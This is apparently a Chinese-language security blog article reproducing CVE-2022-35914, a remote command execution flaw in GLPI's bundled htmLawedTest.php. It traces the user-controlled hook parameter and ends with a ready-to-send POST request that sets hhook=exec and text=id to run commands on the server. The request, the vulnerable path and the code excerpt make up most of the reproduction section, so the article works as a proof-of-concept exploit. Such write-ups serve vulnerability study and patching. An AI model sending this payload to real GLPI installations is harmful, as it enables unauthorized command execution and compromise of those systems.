 #  GLPI htmLawedTest.php 远程命令执行漏洞 CVE-2022-35914   
原创 PeiQi文库  PeiQi文库   2022-10-05 13:23  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6RVV2e7Iz0yrD7avmj6jvTzZgiav6umOmHgsWv4Hvh3zhgl0qJvSQKfNNic9ZKCRO7SX82jQiaNSHcw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6RVV2e7Iz0yrD7avmj6jvTQWO33O5iaK0xEwKqKryoZlC9yoDQIKgrmFGSWNL9EQWibxFkEvmZXsSg/640?wx_fmt=png "")  
  
## 漏洞描述  
  
GLPI是一个用于IT资产管理的开源软件,用PHP编写,并在GPL许可下发布。 作为一种开源技术,任何人都可以运行,修改或开发代码。GLPI 10.0.2及之前版本存在安全漏洞，该漏洞源于PHP htmlawed 模块中 允许 PHP 代码注入  
## 漏洞影响  
  
GLPI  
## 漏洞复现  
  
登录页面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4icJaRrvZgjyvkmJ3jjQou69j7FIMtNcMzFEKIjDdqeyKiaYou1sU4tnuic9lsvmXRavhSt6MoD5pSA/640?wx_fmt=png "")  
  
出现问题的文件为 htmLawedTest.php， 来源于第三方库 PHP Labware  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4icJaRrvZgjyvkmJ3jjQou6mNIIH3yWmY6Q8N5eH9BrO0KYExWvQpcJia0Vka7VVyt7suukCsYuoicg/640?wx_fmt=png "")  
```
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/

```  
  
在 htmLawedTest.php 中接收参数并传入方法 htmLawed 中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4icJaRrvZgjyvkmJ3jjQou6g4iahTCtSjpaibUmaBGRGbACKicXjeTqCguoKQcSXwrfLnAKaMiagJ5ibibg/640?wx_fmt=png "")  
  
跟进文件 htmLawed.php![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4icJaRrvZgjyvkmJ3jjQou61DKmq5tI0j4ZqNXWVq9373m90Ize71FiarvFkKlCORZDUSibJVicre8Zg/640?wx_fmt=png "")  
  
```
if($C['hook']){$t = $C['hook']($t, $C, $S);}

```  
  
这里可以看到参数均为用户可控参数，当控制参数 hhook 为 exec 和 text 为执行的命令时就导致了命令执行漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4icJaRrvZgjyvkmJ3jjQou6R2feMfJaI1nF8oR6zq0ImjskgsjA2BibMKYAg3T5PPWbTngVUXnTfdQ/640?wx_fmt=png "")  
  
验证POC  
```
/vendor/htmlawed/htmlawed/htmLawedTest.php

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4icJaRrvZgjyvkmJ3jjQou65CgO43AiavMH4efOA9kRJWrGncjVaMNOC53IhSql0nGSGkYFXlIZicDg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4icJaRrvZgjyvkmJ3jjQou6kmvgqj7FENgXzS0Micxd6TZ4GSfB68IWvBzyL17LYbIHC7LF85cWFkw/640?wx_fmt=png "")  
  
访问页面获取到 sid 与 token 后再发送请求包  
```
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*Accept-Encoding: gzip, deflateContent-Length: 88Content-Type: application/x-www-form-urlencodedtoken=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4icJaRrvZgjyvkmJ3jjQou6ibeL59q00bEDgoLM2wIyweVgpgUKt9mPAQWoDINnbJaGHq1gn9d9xAg/640?wx_fmt=png "")  
  
  
## 关注公众号  
```
下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
想要加入交流群的师傅公众号点击交流群找WgpsecBot机器人拉你啦～

```  
  
  
## 支持作者  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6RVV2e7Iz0yrD7avmj6jvTcMBicTAqaLJky9ScIO4Rq2AI7GbNL471D07npjsanAH2s4iaZGM5L1tQ/640?wx_fmt=png "")  
## 关于文库  
```
在线文库: http://wiki.peiqi.tech
Github: https://github.com/PeiQi0/PeiQi-WIKI-Book 

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6RVV2e7Iz0yrD7avmj6jvTz2mGLTWwwLW7B9Mib5XibKCWricFR6KaodRqLHwia5uPJgyxoQt4zT6e0g/640?wx_fmt=png "")  
## 文库动态  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6RVV2e7Iz0yrD7avmj6jvTppcfY8pl1iccWCwZMKTicrWWNJXmq80LO41GSqTkLr2OUca9RycNiaEdA/640?wx_fmt=png "")  
  
  
